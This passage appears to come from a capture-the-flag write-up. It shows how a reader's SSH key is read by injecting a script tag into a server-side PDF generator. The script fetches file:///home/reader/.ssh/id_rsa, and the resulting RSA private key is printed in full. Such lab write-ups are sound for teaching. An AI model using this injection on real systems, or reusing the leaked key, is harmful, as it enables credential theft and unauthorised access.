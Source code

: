 > ![](https://i.ibb.co/Mf6fZGL/normal-user.png)

> go to admin panel and download the collections pdf and pingo!.
>
> ![](https://i.ibb.co/XWC7sMv/etc.png)

* nice!

* let's read the **/home/reader/.ssh/id_rsa** to login with ssh as **reader**.

```ruby

 <script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///home/reader/.ssh/id_rsa");
x.send();
</script>

```

> ![](https://i.ibb.co/9cZW2y2/ssh-reader.png)

* nice!

* to see all of the id_sra txt just convert the pdf to txt and you will be able to read it. use this tool [pdf-miner](https://github.com/pdfminer/pdfminer.six.git)

```ruby

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----

```
